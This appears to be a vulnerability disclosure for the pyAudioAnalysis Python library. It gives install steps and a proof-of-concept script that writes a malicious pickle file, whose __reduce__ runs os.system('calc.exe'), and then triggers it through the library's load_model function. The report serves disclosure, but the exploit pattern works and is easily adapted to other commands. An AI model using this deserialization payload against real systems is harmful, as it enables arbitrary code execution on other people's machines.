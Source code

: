 ## :writing_hand: Description

`pyAudioAnalysis` is an open Python library that provides a wide range of audio-related functionalities focusing on feature extraction, classification, segmentation and visualization issues. This package is vulnerable to `Arbitrary Code Execution`.

## :male_detective: Proof of Concept

#### Installation
```bash
git clone https://github.com/tyiannak/pyAudioAnalysis.git
cd pyAudioAnalysis
pip install -r ./requirements.txt
pip install -e .
```

#### Run exploit.py
```python
#!/usr/bin/env python3

import pickle
import os
from pyAudioAnalysis import audioTrainTest as aT

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('calc.exe', ))

payload = pickle.dumps(EvilPickle())

with open('MEANS', 'wb') as file:
    file.write(payload)

aT.load_model('')
```
